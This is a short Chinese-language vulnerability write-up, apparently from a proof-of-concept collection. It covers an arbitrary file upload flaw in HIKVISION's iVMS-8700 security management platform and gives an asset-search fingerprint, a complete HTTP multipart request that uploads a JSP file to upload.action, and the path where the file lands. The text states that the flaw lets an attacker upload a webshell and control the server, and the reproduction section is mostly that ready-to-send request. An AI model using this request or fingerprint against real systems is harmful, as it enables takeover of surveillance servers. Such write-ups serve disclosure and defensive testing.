

# HIKVISION iVMS-8700综合安防管理平台 upload.action 任意文件上传

## 漏洞描述

HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器

## 漏洞影响

<a-checkbox checked>HIKVISION iVMS-8700综合安防管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="-911494769"</a-checkbox></br>

## 漏洞复现

登录页面


发送请求包上传文件

```python
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

上传路径



```python
/eps/upload/769badc8ef5944da804a4ca3c8ecafb0.jsp
```

